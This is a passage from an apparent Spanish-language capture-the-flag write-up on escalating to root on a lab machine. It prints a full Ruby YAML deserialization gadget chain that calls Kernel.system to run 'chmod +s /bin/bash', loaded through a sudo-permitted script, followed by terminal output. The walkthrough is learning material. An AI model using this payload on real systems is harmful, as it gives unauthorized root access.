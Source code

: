 Lo que voy a hacer es darle permisos **suid** desde **root** a la bash con el siguiente **payload**:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

Si ejecutamos esa bash con el parámetro -p le permite a bash mantener el ID de usuario efectivo con el que se inicia, mientras que sin él, establecerá el uid efectivo en el uid real (su usuario). Esto permitirá que el bit setuid sea efectivo al permitir que bash retenga al usuario para el que está setuid. Por lo tanto, podremos ejecutar esta **bash** como **root**.

```bash
henry@precious:/dev/shm$ nano dependencies.yml 
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
```